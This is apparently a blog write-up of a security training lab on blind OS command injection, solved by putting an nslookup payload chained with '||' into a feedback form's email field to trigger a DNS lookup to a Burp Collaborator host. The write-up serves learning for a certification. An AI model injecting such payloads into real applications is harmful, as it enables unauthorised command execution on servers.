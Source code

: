 ```yaml
---
layout: post
title:  "Blind OS command injection with out-of-band interaction"
date:   2024-10-15 11:20:54 +0530
categories: [BSCP, Command Injection]
---
```


## Objective 

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator.

## Solution 

Just like the other lab, we have a feedback submission form 

![]({{ site.baseurl }}/assets/images/os-10.png)

We know that email field is vulnerable to OS command injectiion and in order to solve the lab we need to get the pingback from the server through the collaborator and utilising the following payload `|| nslookup cxd2y4s3h3mgzbw27bjospudj4pvdl1a.oastify.com ||` 

Now place the following payload into the email parameter... url encode, sent the request and response as expected without an error 

![]({{ site.baseurl }}/assets/images/os-11.png)

Checking the collaborator, we got a DNS pingback 

![]({{ site.baseurl }}/assets/images/os-12.png)

As mentioned in lab description, We got the DNS pingback and that solves the lab 